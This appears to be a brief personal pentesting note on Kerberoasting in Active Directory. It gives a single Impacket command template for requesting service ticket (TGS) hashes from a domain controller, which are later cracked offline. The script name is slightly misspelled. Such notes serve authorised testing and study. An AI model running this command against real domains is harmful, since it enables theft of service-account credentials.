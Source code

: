 # Usage
**Capture TGS hash**

```
GetUsersSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```



---
Tags: #AD #kerberos #impackets #kerberostaing #kerberos 